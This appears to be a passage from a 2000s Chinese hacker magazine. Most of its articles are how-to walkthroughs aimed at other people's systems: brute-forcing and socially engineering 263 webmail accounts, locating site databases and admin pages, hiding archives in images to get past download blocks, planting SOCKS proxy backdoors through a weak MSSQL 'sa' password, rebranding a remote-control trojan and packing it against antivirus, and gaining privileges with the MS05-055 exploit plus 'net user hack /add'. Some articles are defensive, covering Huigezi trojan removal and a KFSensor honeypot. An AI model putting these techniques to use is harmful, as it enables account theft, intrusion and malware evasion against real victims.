比较重要的是 Security Settings 设置，在其中可以设置用户权限、更改系统密码、锁定入侵者 IP、IP 过滤设置、增加 SSL 证书、设置个人密码（除正常密码外，再增加一层密码保护）、查看日志和最近的访问等。可见 LogMeIn 提供的控制功能不仅细致而且功能强大。

#### 九、Guest Invite（共享控制）功能

Guest Invite 允许让你的朋友临时控制一下你的电脑，这是一个有趣的功能。你和你的朋友可以同时控制远程桌面，充分体会在线合作的愉快。在远程主机任务栏托盘中的 LogMeIn 图标右键菜单上点击“Guest Invite...”项，打开 Guest Invite 窗口，点击“Start Guest Invite>>”按钮，在向导帮助下确定合作的时间段、好友的 Email 地址等细节（图9）。LogMeIn 会给你的朋友发一封 Email，其中包含了邀请连接地址。你的好友点击该地址进入 LogMeIn 的 Guest Invite 页面，点击“Continue”按钮就可连接到你的电脑了。LogMeIn 使用完成后，点击主窗口上的“Disconnect”图标可以安全退出 LogMeIn。

（本文涉及的相关工具：LogMeIn，光盘中有收录。）


图 9

### 朔雪 + 社会工程学 = 完全占有 263 信箱

小龙

今天给大家带来了一个获取 263 信箱的方法，可以说是既“暴力”又“卑鄙”。我们都知道 263 信箱早就完全收费了，其功能之强大也确实让我们垂涎，可惜我们这些没钱的穷人就是用不起。难道就连看看的权利都没有？下面就介绍我如何采用特殊手段获得 263 信箱的。

想必大家都听说过朔雪这款工具吧！虽然工具是比较老了，但你仍然会发现它到现在都非常管用！我们用浏览器到 http://mail.263.net，先点“模式”菜单下的“标准模式”，然后再点“文件”栏目下的“从当前 URL 导入”，就可以在表单栏目下看到相关提交项目的信息（图1）。

在 usr 这个项目下双击进行编辑，“单元常量”里输入你要破解的用户名，然后再编辑 pass 这个表……

还有“密码保护”功能咱们没试呢。我们进入这个页面：http://nbull.263.net/register/setpass.jsp，输入用户名，然后选择“回答设定的问题找回密码”，就会出现填写生日的页面……

利用刚才的方法，到标准模式后接着导入当前 URL，然后在这个表单下编辑 year、month 和 day。这次不用做字典了，因为这种小字典我们完全可以自己写。我们新建一个 txt 文档，输入 1970-1985 之间的所有年份……继续点“开始/重新开始”，这里可以选择一个错误标记，当然是选择最容易判断的那条了（图2）。

这里的包长度程序会自动计算出来，点确定后，可以看到朔雪以飞快的速度在提交数据，这可是以牺牲带宽和 CPU 为代价的。此时，你可以注意控制台下的信息，也就是那个黑乎乎的窗口，完整记录了当前执行的操作（图3）。

由于这个字典组合的确是简单，不一会儿工夫，就可以看到正确的信息已经被提示找到（图4）。用这个生日组合就可以进入下一步了。在输入答案处，我看到这家伙的问题是：我是谁？这个我可做不出字典了……


图 1


图 2

## 傻瓜黑客


图 3


图 4

是一些数字的问题，你也可以试下生成字典提交……输入内容如下：你好，一个偶然的原因知道你的信箱，原来你也是**年的，可以做个朋友吗？我 QQ 是******。我叫李小虎。”

过了几天就收到他的回信……下面就是几句简单的谈话：

> “你好，很高兴认识你，我是张小龙。  
> 呵呵，你好。。  
> 还不知道阁下大名呢  
> 我叫李小虎。”

哈哈，就这么简单，接下来用这个姓名输入到答案里，一个 263 信箱就这么到手了。当然，对于不同情况这个“卑鄙”的过程也是不同的……

### 多面手——网站整站下载器

小龙猫

初识“网站整站下载器”，是一个朋友推荐的。这确实是一款非常不错的工具……

### 一、下载整站

既然工具叫做“网站整站下载器”，那我们就先来看一下它的基本功能吧。软件的界面很朴实，却有着丰富的内涵……我们就可以输入需要复制的网址 URL 地址……


图 1

可以看到下载速度相当快，同时下载的文件也非常准确（图1）……如果我们选择全部，那么该网站下的所有文件都会被下载得到，包括音频和视频文件……

### 二、挖掘其他功能

其实在新建项目向导中，我们可以发现，这款软件还可以自定义搜索特殊类型文件的功能，这点确实非常实用……

搜到的网站的音频文件格式是 rm，在软件的默认设置里不存在，我们可以自己添加，定义的名称随便输入，搜索的类型格式一定要是“*.rm”，如果需要搜索其他类型文件，那么要把分号作为分隔符。这里我最欣赏的就是自定义文件大小这个功能，虽然不填写就是不定义大小，但是在实际情况下我们完全可以按照自身需求设置（图2）。有了这款工具，那些影音资源器岂不是要下岗了？


再深入一点想，既然这款工具可以自定义搜索的文件类型，那么是不是可以在入侵中发挥它的用途？的确，我们如果添加 *.mdb，就可以搜索网站的数据库了啊。要知道这种搜索功能可不是依赖默认设置的，利用搜索到的数据库，还怕办不成事？

再说，就算拿到了数据库和破解了密码，那么如何得到后台？这也好办啊，既然能够搜索到网站的所有目录和文件，后台地址是一定逃不过的了，我们只要在结果中细心查找，是一定可以把它挖出来的。不过这款软件只能获取静态页面的资源，对于一些使用 html 页面的后台是完全可以拿下的，不论它使用的地址是多么繁琐。

### 三、总结

其实这款软件的功能远不止我在上边介绍的那些，就有待于读者自己去搜寻吧。相信 X 的朋友们一定可以获得更多有用的东西。

> （本文涉及的相关工具：网站整站下载器，光盘中有收录。）

### 由 MSDTC 溢出想到的进程与端口

在 X 新年第一期上，公布了 Windows MSDTC 远程溢出漏洞的利用文章，这使得我们这些菜鸟的入侵百宝箱中又多了一个“攻城掠地”的必备武器。不过，在原文中针对如何寻找 MSDTC 所使用的端口的细节，文章中却省略了。下边，我就简单地讲一下如何寻找特定进程所使用的端口。

我们首先按 Ctrl+Alt+Del，调出任务管理器。在任务管理器中可以清楚地看到 msdtc.exe 的进程 PID 号为 224，如图1。如果各位没有看到 msdtc.exe 进程的话，请把任务管理器最下方的“显示所有用户的进程”勾选上。当然了，你的系统中如果没有开启这个服务，就算是勾选上也不会找到的，不过好在这个服务是默认安装的。


如果没有看到 PID 列的话，我们可以点击任务管理器上方的“查看”→“选择列”，然后把“PID（进程标识符）”勾选上就可以了，如图2。知道了 MSDTC 服务的 PID 进程号就好办了。我们切换到 CMD 状态下，运行 `netstat -ano` 命令，就可以清楚地看到 PID 为 224 的进程所监听的端口为 1027 了，如图3。


正如原文所说的，MSDTC 服务使用的端口并不是唯一固定的。我在 Windows 2003 上测试的时候，第一次也是发现使用的是 1030 端口，但后来再检测时，发现都是使用的 1027 端口。这有可能是第一次检测时，因为 1027—1029 端口被占用了，所以 MSDTC 服务才会使用 1030 端口；而后来测试时，1027 端口未被占用，因此就默认使用了 1027 端口，这一点还请大家注意。


另外，对于 Windows 2000 系统，netstat 命令没有 `-o` 参数，此时我们可以借助第三方工具来进行寻找，AntiyPorts 就是一个比较不错的工具。直接打开后就可以清楚地看到进程号为 224 的 Windows\system32 目录下的 msdtc.exe 程序，监听的 TCP 端口为 1027，如图4。使用这种简单的方法，我们可以查找系统内其他服务所使用的端口号，也可以用于查找一些非法的程序，比如木马、监听的后门程序等等。以后要再查找服务端口的话，通过上面的学习，大家都应该会了吧！


即为系统服务。早期的 Win98、WinMe 系统则由于没有服务而会写入注册表启动项目。可能有人会问，为什么杀毒软件查杀出了病毒而在目录下却找不到？其实 netserve_hook.dll 通过拦截 API 调用来隐藏病毒。这样就增加了自身隐蔽性，灰鸽子利用了当今流行的进程注入技术，所以用任务管理器也找不到它的行踪。

### 关于灰鸽子查杀

### 一、关于灰鸽子

对于菜鸟来说，应该没有不知道灰鸽子的吧。的确，灰鸽子带来的影响是巨大的，可以说 80% 的木马爱好者都钟情于灰鸽子。依据何在？由于灰鸽子在网上的广泛流传，针对它的免杀技术也相当成熟，我们时常可以在黑客站点找到有关灰鸽子的免杀动画。其实，大家耳熟能详的“变种”这两个字，定义的就是经过其他人修改过的“木马”“病毒”等。灰鸽子的变种数量可是非常的多，利用了许多技术手段来逃避杀毒软件，所以单靠杀毒软件来对付灰鸽子还是有些勉为其难了。并且灰鸽子在很早的版本中就开发了“远程开启代理”功能，而这正好给那些利用别人肉鸡在互联星空进行消费的“黑客”带来了便利。甚至于现在有许多人戏称“灰鸽子”为“刷点专用工具”。那就让我们进行一场“将鸽子杀到底”的战斗吧！

### 二、知己知彼，杀毒有理

先来简单介绍一下灰鸽子的运行原理吧。现在的木马一般是利用客户端来生成服务端，这样做有利于自定义木马的名称和实现反弹连接。灰鸽子服务端也是如此，假如我们定义服务端名称为：netserve.exe，只要我们执行这个程序，就会生成在系统目录（98/XP 下为系统盘的 Windows 目录，2k/2003 下为系统盘的 Winnt 目录），释放出 netserve.dll 和 netserve_hook.dll 到该目录下；如果在配置过程中定义记录键盘，则同时会释放出 netservekey.dll 这个文件用来记录键盘操作。netserve.exe 运行后会把自己注册为系统服务……

这款工具吗？这可是一个检测系统信息的好手，还可以显示系统隐藏进程。我根本就没开启 IE，甚至从来都不用这款系统自带的浏览器，却在进程信息中发现它的存在（图1），这足以说明我的系统中有木马了。下面再利用一款工具确认一下，也是灰鸽子工作室出的一款安全工具：木马辅助查找器……


图 2

前面已经说过，在正常模式下是看不到灰鸽子文件的，但是在安全模式它是跑不掉的。我们开机后按 F8 调出启动菜单，就可以进入安全模式下执行操作。由于木马一定会在系统目录下生成 *_hook.dll，查找出这个文件，就可以将它的同伙一网打尽了。我们利用 Windows 搜索功能，定义在 Windows 的安装目录。这里 C 盘是系统盘，文件名称输入“_hook.dll”后就可以查找出灰鸽子生成的文件。假如这里是 netserve_hook.dll，那在该目录下一定会存在 netserve.exe 和 netserve.dll；可能还会存在 netservekey.dll 这个键盘记录文件。我们只要删除这几个文件，并且删除服务启动的项目。上面说过了用木马辅助查找器可以删除这个服务，我们也可以手动删除。玩注册表比较熟的朋友知道，服务一般是写在 `HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Services` 这个键值下，例如我们搜索出来的灰鸽子名为：netserve.exe，那么只要搜索“netserve”，把查找出来的键值彻底删除就可以了（图3）。在 9X/Me 下，灰鸽子是注册 run 键值将木马启动，运行注册表编辑器，打开 `HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Run` 项，我们可以看到名为 netserve.exe 的一项，将 netserve.exe 项删除即可。


图 1

### 三、工具查杀，快捷方便

关于灰鸽子的专杀工具比较多，我挑选出了两款非常强大的专杀工具，分别是“灰鸽子全版本清除器”和“木马杀客灰鸽子专杀”。这两款工具的开发者也在不断对灰鸽子的最新版本进行更新。


图 3


图 4


图 5

先来看一下灰鸽子全版本清除器，这款工具开发到现在已经是 Beta3 版了。我们运行软件后点“scan”就可以发现系统中的灰鸽子病毒并清除（图4）。木马杀客灰鸽子专杀工具使用起来也很简单，操作也是一键完成（图5）。由于这两款工具是根据灰鸽子的运行原理编写产生，所以能够彻底删除灰鸽子及其变种。

### 四、总结

为了不让自己成为受害者，那么就让我们自己动手，把“灰鸽子”请出我们的爱机吧。过年了，也祝福大家注意网络安全，远离病毒危害。

（本文涉及的相关工具：木马辅助查找器、灰鸽子全版本清除器、木马杀客灰鸽子专杀，光盘中有收录。）


图 1


王艺翔

看黑客 X 档案已经一年多了，这让我从中学习到了不少黑客入侵技巧和入侵检测及防范方法。总结一句话就是：做一个成功的小黑客其实不单纯要学会入侵，还要学会如何保护自己；在保护自己的同时，还要学会顺藤摸瓜抓住入侵者。

今天我就给大家带来了一个强有力的工具——kfsensor，它的主要作用就是在本地电脑上构造一个蜜罐，然后让入侵者上当受骗。

首先我们要安装好软件 kfsensor，安装结束后会询问你是否重启计算机，一般情况下不需要重启。安装完毕后我们找到主文件 KFSensor.exe，初次打开会出现如图1所示的界面，我们连按 n 个“下一步”，最后按下“完成”，如图2。


图 2


图 3

在图2中大家可能会看到一些很熟悉的东西，比如 21、42、3389 等。这很明显就是端口嘛！不过呢，这些端口都是虚拟出来的。我们在命令行下输入：`netstat -an`，看看端口情况，如图3。看到那些服务对应的端口状态全是“LISTENING”，这就表明这些端口全处于监听状态，也就是说这些服务处于开启状态。这样一来，入侵者利用扫描器工具扫描我们电脑的时候也会扫到这些端口。

## 傻瓜黑客

用相应工具连接这些端口时，输入的任何信息都会被 KFSensor 记录下来。这样就有利于我们分析入侵者的来源（IP）和用户名、密码习惯，极大地帮助了我们反入侵。

下面实验开始，我们以两个端口 21、5900 来说明问题：FTP 是文件服务器的端口，5900 是 VNC 服务端端口。实验环境：本地 IP 是 222.188.15.54，ADSL 拨号上网，操作系统是 WinXP，没有安装 IIS、终端服务等。


在命令行下输入 `ftp 222.188.15.54`，出现图4所示界面；我们在“user”处输入：wyx，“password:”处输入：123，如图5。


`login failed` 表明登录失败。为什么会失败呢？很明显，在用户名和密码处随便输入什么都会失败。刚才你输入的用户名 wyx 和密码 123 已经被 KFSensor 记录下来了！我们回到主程序界面（图6）。在图6右边就记录了入侵者事件，双击其中某个事件看，如图7。图7中的“summary”记录了入侵者简要信息，比如“visitor”是入侵者 IP 地址；“port”是入侵者用什么端口登录；“domain”是入侵者计算机名称。

我们再点“details”看看，如图8，其中“start time”和“end time”记录了入侵者的活动时间，至于其他选项大家看了便清楚了，这里不再啰嗦。


再来简单地实验一下 VNC 5900 端口。运行 `vncviewer.exe`，如图9，当输入密码“123”的时候出现了认证错误对话框，如图10。此时再回到主程序看，如图11，VNC 也记录了一个事件，我们双击这个事件看看，如图12。


实验完毕，可有个问题值得一提。图2左边这些端口太多了，这样一来，入侵者在用扫描工具扫描时就会有很多端口，有经验的入侵者就会察觉到这并不正常。那我们怎么才能去掉多余的一些端口呢？

- 1. 依次点击图2的“scenario”“edit scenario”，如图13。假设我要删除虚拟 21 端口，只要在“name”中找到“ftp guild”，然后点“delete”即可。
- 2. 对比图2和图14会发现 FTP 端口已经没有了；再在命令行输入 `netstat -an`，也找不到 21 端口。


图15中我们虚拟了三个服务“dns”“iis”“3389”，这样就显得比较真实。软件安装的时候已经将自己做成了服务，我们可以在服务里面找到 KFSensor。依次点击“files”“service”可以对其服务进行“start”“stop”“restart”等操作，此外还可卸载服务。最后再补充一句：如果你在本地已经安装了 FTP 服务，那就不能虚拟 FTP 服务了，这样端口会形成冲突，我们可以将本地的 FTP 端口改为 2121，然后再虚拟 FTP 服务就行了。


（本文涉及的相关工具：KFSensor，光盘中有收录。）

## 网络黑客“之另类”下载伪装术

好看的、好玩的、实用的……平时大家上网是不是都喜欢收集些不错的工具，然后存到你的 QQ 网络硬盘或是邮箱里，当使用的时候就直接下载下来呢？不过，现在的网管都各有点子压制的功夫，很多网管都会设置禁止下载 ZIP、RAR 及 EXE 文件，以防有菜鸟在网吧里用下载的这些工具乱搞。

不过，光禁止下载这些类型的文件就真的有用吗？既然不能下载 ZIP、RAR 及 EXE 文件，那么其他类型文件肯定是可以下载的，我们为什么不把文件类型换一下，然后躲过网吧管理系统的火眼金睛（叫它变成睁眼瞎好了）来达到下载的最终目的呢？

任我小行［无组织］

那好，跟着我一起做吧。我们需要的工具就是 UltraEdit，具体的思路就是使用这个十六进制文件编辑软件 UltraEdit，来把要在网吧中使用的压缩文件或是可执行文件隐藏到一个 jpg 或 gif 格式的图片文件里，这样下载时就不会受到限制了。


假设我们要在网吧里使用的文件是 `hacker.zip`，里面存放着其他的各种工具，同时我们再准备一个 gif 文件，假设名为 `love.gif`（图1），我们要利用它来“掩护” `hacker.zip`。运行 UltraEdit，用它打开 `hacker.zip`，注意一定要把“编辑”菜单中的“16进制编辑器”选项打上，然后单击“编辑”菜单中的“全部选定”，选择整个被编辑的 `hacker.zip` 文件，点击“编辑”→“复制”。


接下来点击工具栏中的“打开”按钮，用 UltraEdit 打开 `love.gif` 文件。拖动右边的滑块到最下方，用鼠标点击 `love.gif` 文件的 16 进制编码的倒数第二个代码，如图2，点击“编辑”→“粘贴”，将 `hacker.zip` 文件的全部代码粘到 `love.gif` 文件中即可，如图3。单击工具栏中的“保存”按钮，就可以把 `hacker.zip` 隐藏到 `love.gif` 文件中了。


> 小提示：当你按照以上步骤做好后，会发现桌面多了个 `love.gif.gif` 文件，这个文件没什么用，大家不必理会就可以了！

来试试效果吧，单击 `love.gif` 文件，出现的是一个正常的图片；如果按住 Shift，右键点击，在弹出的菜单中选择“打开方式”，选择用“WinRAR 压缩文件管理器”的方式打开，如图4。大家可以看到，竟然里面包着一个“精锐网吧辅助 V5 正式版”，如图5，真是神乎其神啊！把这个 gif 文件上传到网上，以后你去网吧就可以无拘无束地自由下载该文件了，网吧管理软件绝对不会管你——它还误以为这是个图片文件呢！

（本文涉及的相关工具：UltraEdit，光盘中有收录。）

## 隐脉黑客

大学即将毕业了，看了这么多年的黑客 X 档案，心里也很想再发表一篇文章，来结束我的学生生涯……废话不多说，下面来进入正题。


VLAN（Virtual Local Area Network），即虚拟局域网，是一种通过将局域网内设备在逻辑上划分为不同网段的技术。每个 VLAN 包含一组有相同需求的工作站，广播域彼此隔离，从而有助于控制流量、简化管理并提高安全性。

我们学院采用神州数码交换机，同时划分了 VLAN。不同 VLAN 之间通常不可互访，这在安全上有提升，但也给管理和使用带来一些麻烦。作者由此引出后续渗透思路：从可访问的服务器入手，再尝试跨 VLAN 行为。


在目标机执行 DOS 命令（如 `sock.exe -install`、`sock.exe -config starttype`、`sock.exe -config port 8088`、`net start skserver`）以安装并启动 Snake SockProxy Service，设置监听端口并确认服务状态。


然后打开 SockCap，配置 SOCKS5 代理连接：在 `settings` 中填写 Server（如 10.1.1.13）与 Port（8088），协议选择 SOCKS Version5，Name Resolution 选择“Resolve all name locally”，完成后确定。


接下来把所需工具拖入 SocksCap Control（例如 X-Scan、IE），再对不同 VLAN 段进行扫描测试。文中示例通过该方式继续探测内网主机与弱口令主机。


作者先使用 X-Scan 对 10.1.1.1–10.1.1.20 扫描，发现一台存在 MSSQL 弱口令的主机（示例账号 `sa`，弱口令 `123456`），随后通过“综合利用工具”等步骤上传 `SkSockServer.exe` 到目标目录并改名为 `sock.exe`。


随后通过上传与安装流程建立 SOCKS 代理跳板，实现跨 VLAN 访问能力。作者指出：很多人误以为仅靠 VLAN 划分就足够安全，但若共享服务器存在弱口令或漏洞，仍可能被利用成为跨网段跳板。

（本文涉及工具：X-Scan、SkSockServer、SockCap；文中用于安全研究演示。）

## 傻瓜黑客


软件是受版权保护的，此文已经征求 X 档案杂志社编辑大哥的同意。希望黑友们从中学到些技术，而不是其他，呵呵！

在 2005 年第 8 期的杂志中，有一款很不错的远程控制软件……总体感觉是不错的，界面清爽让人看起来舒服。扯了一堆废话，切入正题。

现在我们就要来放出自己的一个版本，修改里面的信息……最关键的还是免责声明。

我们把要做的工作分几个部分：修改代码、修改特征码、加壳处理、图标处理。大概是这几个步骤。

在修改代码之前我们还要做件事（查壳），否则的话就不能修改里面的代码信息咯。

这里推荐一款很不错的壳类型检测工具 Language 2000……现在来用它检测“X 友情版”的壳，如图1。


现在知道了是什么壳了，那我们就来脱壳吧！拿出我们的工具——ASPack 脱壳工具，如图2。


### 一、修改代码

### 1. 野蛮式（伏虎式）

首先用 eXeScope 野蛮冲撞，撞开我们刚才脱壳完的主程序……如图3。


看见的都是 # 号加数字，现在就来拿一个串字符数字来改，看到软件里的关于了吗？如图4。


好，现在我们就从这里着手，在资源里找到 RC 数据，然后点一下 TABOUTFM 项，在右边显示的都是代码，图4我们看到了软件作者的 QQ，那就从这里开始定。

```text
object Label4: TLabel
  Left = 24
  Top = 88
  Width = 121
  Height = 13
  AutoSize = False
  Caption = 'QQ'#65306'48235659'#12...
end
```

没学过编程的朋友也能看得差不多吧！Follow Me，大伙看到 QQ 字串的“#65306”后面的那一串数字就是作者的 QQ，改成你的吧！

现在就要改“软件名称：远程控制任我行”……注意：这里你要是直接改成你要改的汉字的话，软件里面会显示乱码！

```text
object Label1: TLabel
  Left = 72
  Top = 16
  Width = 193
  Height = 13
  AutoSize = False
  Caption = #36719#20214#21517#31216#65306#36828#31243#25511#21046#20219#25105#34892
end
```

看到了吧，上面代码的 Caption 行最后面有一对单引号 `''`，我们可以在单引号中间加上汉字。

`#36719#20214#21517#31216#65306#36828#31243#25511#21046#20219#25105#34892` 就等于“软件名称：远程控制任我行”，现在我们在 `''` 之间加“六月网络安全联盟黑客X档案”。

```text
object Label1: TLabel
  Left = 72
  Top = 16
  Width = 193
  Height = 13
  AutoSize = False
  Caption = #36719#20214#21517#31216#65306#36828#31243#25511#21046#20219#25105#34892'六月网络安全联盟黑客X档案'
end
```

我们再点文件菜单中，把文件关闭再打开，找到刚才修改的代码段，按前文方法替换字符串编码后即可。OK，这里就改好了软件的名称，其它的也就差不多。

这里“#20219#25105#34892”就是“任我行”，我们以在别人机上用“”作引号的方法，得到你想要改成什么字的代码，替换就可以了。其它的改法也是这样。


图6

### 2. 降龙式

ResscopeV1.93 威力果然巨大！朋友们，现在不用为代码而烦恼了！用力挖开软件，什么修改都比较简单了，在修改文件代码前，得把图标给换了，如图7。


图5


图7

连接密码和端口这里都可以改，在设置的启动项目，有“URL 域名转向”。还在 RC 数据里面，打开 TSELECTSERVER_FORM，右边代码里很容易就能找到：

```vb
object GOM126: TEdit
  Left = 128
  Top = 8
  Width = 201
  Height = 21
  Hint = '#20363#22914#65306 http://...'
  ParentShowHint = False
  ShowHint = True
  TabOrder = 0
end
```

这里只要把网址改为你的就可以了，在“提示信息”里还有“信息标题任我行”：

```vb
object B12601: TEdit
  Left = 136
  Top = 56
  Width = 153
  Height = 21
  Enabled = False
  Text = '#20219#25105#34892'
end
```

软件的名称用 WinHex 修改，直接替换就可以。在文件菜单中，选择导入资源就行，如图8。


图8

### 二、免杀——加壳 + 加壳

这里向大家推荐一款加壳工具，PECompact 1.84 汉化版。虽然现在的版本 2.64 出来了，不过我测试的好几个工具都失败，感觉用 1.84 版不错，强烈推荐！

现在我们来把文件加壳，运行 PECompact，再打开我们要修改的文件，这里把压缩级别调为最高，如图9。再来看一下壳，如图10。


图9


图10

然后，用另一款不错的工具再加壳，也就是木马控制端自动免杀器，个人感觉这款工具很不错。先打开文件，输入你要设置的密码，点“加密”就行。接下来，我们来查杀下加壳、加密的文件……


图11

图12

图13

图14

至于图标问题，也可以用“图标终结者 2.0”或者“EXE 图标替换器”来替换成你想要的图标。现在，我们配置出来的程序还是通过 ASPack 压缩的，也能够被卡巴大叔给 KILL 的！很简单，脱壳后再用 PECompact 1.84 汉化版加壳，级别调最好就是 high 啊，现在就基本上完工了！

顺便说一下，上次看论坛上有人讲“狂软行黑客X档案友情版”配置“反向连接”不成功，说找不到“原始的服务器程序”，自己也试了，一样的结果。这里我已经把 cache 目录里的 RWX.ini 文件修改好后放光盘，就不存在问题了，如图13、图14。文章有不妥之处，还请各位大哥大姐指教。

（本文涉及的相关工具：ASPack、language2k、PECompact1.84 汉化版、图标终结者 2.0 及文字动画等，光盘中有收录。）

## 小试 Windows 本地溢出之 Kernel APC Data-Free（MS05-055）

帝国菜鸟


在《黑客X档案》2005 年第 10 期上，介绍过 Windows 的两个本地溢出漏洞的利用，想必各位读者都已经掌握了。就在 12 月 13 日，Windows 最新的一个本地溢出漏洞就又被公布了，这就是 Windows Kernel APC Data-Free 本地权限提升漏洞（MS05-055）。关于该漏洞的一些具体分析详见 http://www.xfocus.net/articles/200601/844.html，不过该漏洞只影响 Windows 2000 系统。


让我们来简单地看一下溢出程序的使用吧！假如我们当前只拥有 guest 权限，此时添加用户、启动服务之类的操作是不被允许的，会提示我们“系统发生 5 错误。拒绝访问。”我们执行 helper 程序就会得到溢出程序的使用格式，如图1。


我们按照图1中给出的格式执行：`ms05-055 helper`，溢出程序会自动检测溢出地址，最后会提示我们“Exploit finished.”溢出完成，如图2、图3。

感觉就像没发生任何变化一样，既没有出现新的 cmd 窗口，也没有执行新 cmd 的提示。不过，我们此时再执行 `net user hack /add` 以及 `net start telnet` 等命令时就会发现已经完全可以了，这说明我们已经溢出成功，得到系统权限了，如图4。

它的使用就是这么简单，唯一让我感到遗憾的是，这个漏洞只影响 Windows 2000 系统，而在 Windows XP 及 Windows 2003 系统上却不存在。

（文章中涉及到的 MS05-055 的溢出程序已经收录于光盘中）

## 隐脉黑客

作为管理软件的“网络执法官”已经流行一段时间了，深受其害的小菜们一定对它深恶痛绝！今天就让我们以网管及被管理者的身份来说说该软件的执法、突破过程。

我们先看一下网络上对于“网络执法官”的描述：可以在局域网中任意一台电脑上运行网络执法官的主程序，它可以穿透防火墙、实时监控、记录整个局域网用户的上线情况，可以限制各用户上线时所用的IP、时段，并可将非法用户踢下局域网。该软件适用范围为局域网内部，不能对网关或路由器外的机器进行监视或管理！

可以穿透防火墙？！真的吗，我感到很吃惊，却也引起了我最大的兴趣来研究它是如何穿透防火墙的……


“网络执法官”是通过ARP欺骗来达到管理目的的。其功能虽说安全全面、稳定，但和其它软件比起来也没有什么本质上的区别。要想了解它是怎么管理所在网段而不让其管理的工作站上网，这还要追溯到网络通信的原理上……

| 层级 | 作用 | 相关协议/示例 |
|---|---|---|
| 应用层 | 为用户程序提供网络服务 | TELNET、FTP、HTTP |
| 表示层 | 数据格式转换 | ASCII、EBCDIC、JPG、BMP |
| 会话层 | 会话建立、管理与终止 | - |
| 传输层 | 端到端传输与可靠性控制 | TCP、UDP |
| 网络层 | 路由选择与IP寻址 | 路由器、三层交换机、IP、SPX |
| 数据链路层 | 数据帧传输、MAC寻址 | 网卡、交换机、Hub、网桥、MAC |
| 物理层 | 比特流传输与物理介质 | Ethernet、RJ-45、网线 |

图1

我们知道，通信是和网络的七层协议密切相关的，以下我们虚拟一个局域网，来讲解网络通信过程及“网络执法官”的管理过程。当我们在七层协议上层，主机A想和其它主机通信，比如telnet到主机B，各层都为数据打包后再封装上自己能识别的数据标签……


- 1. 当数据包到达传输层，由于telnet使用TCP协议，传输层将上层传来的数据不变，再封装TCP包头以便目标主机可以正确解包，继续向下层（网络层）传递。
- 2. 网络层不会改变之前的数据包，主机A会根据自己的IP与子网掩码判断目标主机是否同网段；若不同网段则交由网关转发。
- 3. 数据链路层封装MAC地址；若未知目标MAC则发送ARP请求，获取后再封装并转发。
- 4. 接着数据经网线等介质传出，主机B收到后执行相反操作。

话说主机A想去某X官方网站，数据在传输到网络层时会先进行IP与掩码运算，判断是否同网段；若不在同网段则封装网关MAC并发送给交换设备，由网络设备逐跳转发直至目的地。

为什么“网络执法官”可以根据网卡的MAC剥夺我们上网的权力呢？这是由于其利用ARP欺骗原理，持续向网络发送伪造ARP广播包，诱导其它主机记录错误的MAC映射，使第二层功能失效。

- 1. 主机无法访问Internet，而局域网功能没问题：由于ARP歪曲造成伪网关MAC，用户机找不到真正网关MAC。
- 2. 无法访问Internet，且局域网功能异常：被误导记录了错误的主机MAC地址，导致互访受影响。
- 3. 无法访问Internet且提示“IP地址冲突”：属于典型的“IP地址争夺游戏”，在以MAC+IP进行限制时常见。

以上是简要地描述了两台主机的数据传输过程。对付这类局域网控制方式，还可采用代理（如http、sock代理）等手段进行绕过，但网络管理员发现后往往会继续封杀。

## 傻瓜黑客


还有一种方法就是更改MAC地址。当然，这种方法是从原理上把该软件的控制功能给搞定了，但是大家别忘了，除了网络管理软件还有网管本人呢！他会根据IP地址及计算机名继续封杀。

按常理说这种方法是一定行的，但是一个合理规划的网络是不会让你随意更改以上各种设置的。比如公司主机、网关设置固定，网管工作认真时或许暂时获胜，但一旦被发现仍会被踢出。

设置了“友邻用户”，它们可以相互发现却不能相互管理，这是这种方法可笑的原因。日志中可查到友邻用户记录；若被网管看到你在捣鬼，后果可想而知。

静态MAC地址突破管理可用 `arp -d`、`arp -s` 等命令修改ARP高速缓存或静态缓存。在某些环境下可绕过限制并维持TCP正常连接，但依然可能被严格网管识别并清出网络。


有一种常见做法是把另一块网卡接到另一主机，做“代理服务器”，让数据经其到达网关。管理软件常只识别代理机在使用网络，前端受管主机数据可借路通过。

这类软件工作在网络第二层，无法穿透第三层设备；所谓“穿透防火墙”多是误解。硬/软件防火墙若工作在三层以上，其二层协议处理无法跨层实现真正“穿透”。

没有任何一种管理软件可以被完全控制，也没有永远突破它的单一手法。攻防对抗中只有不断提升方法与管理意识，才能持续获得优势。

### 回收站里捡内涵

#### xplog70.dll 复原实战

文中描述了在执行cmd命令时出现异常界面的情况，本质是 XPSQL70.dll（文中写作 xpsql70.dll / xplog70.dll）被误删或损坏，导致扩展存储过程不可用。


修复思路为使用SQL分离器工具连接目标SQL Server，选择SQL Server身份验证，输入正确登录名与密码后进入执行界面。


```sql
sp_dropextendedproc 'xp_cmdshell';
sp_addextendedproc 'xp_cmdshell','xpsql70.dll';
```

执行上述语句后再次检查目录与调用结果，若相关DLL恢复并可正常调用，则说明修复成功。


（本文涉及的相关工具：SQL分离器，光盘中有收录。）

## X版的菜鸟兵器箱 Box

JiaJia [YuLv_Online]

手中敲着键盘，嘴中嚼着黑客X档案。我们这些菜鸟也都在一步一步前进着。想必许多黑友都收集了很多黑客工具吧，不过工具多了携带和使用起来都不怎么方便。

今天我给大家介绍的这款软件——JiaJia_Box（以下简称Box），这是我花了一些时间搞出来的一个X版的菜鸟综合软件，它集成了许多实用的功能！我可是强烈推荐给各位菜鸟兄弟哟！

#### 一、附加功能简介

Box运行后的界面如图1所示，我们可以很清楚地看到其大体功能。


首先，是菜单部分，“常用工具下载”自然是为了方便大家下载而设的，但是由于我没有自己的空间，所以只给大家提供了X档案的一些专版软件链接地址，请大家多多包涵。“在线工具”中是一些可以直接在线运行的工具（如众多的网吧管理软件破解工具、安全系列辅助工具、日常工具系列），还有一个小功能是网络校时，误差只有2秒，而且比Windows的好用多了。

其次，“工具栏”中提供了系统的常用工具（如注册表、CMD、组策略等）的快速打开。

#### 二、主体功能介绍

我们来看一下Box的主体功能及一些实例。

##### （一）文件操作

##### 1. EXE文件图标更改

这个功能我想大家都很熟悉，早期很多人经常把木马图标改成系统文件图标以迷惑别人。使用方法如图2，选择要改图标的程序（图标可以选ICO，也可以直接选EXE，比如Box自动读取该EXE的图标）后点击“更换”即可。


##### 2. EXE文件转换成BAT批处理文件（EXE2BAT）

这是一个非常实用的小功能。其实EXE2BAT，就是把EXE文件转换成为那些十六进制的字符，然后通过Debug.exe进行“编译”，还原成原来的EXE文件。

> 小提示：DEBUG.EXE是MS-DOS系列版本中所带的调试程序，以前忘记CMOS密码的时候，还利用它来破解过CMOS的密码呢，而且比较轻松就破解掉了。

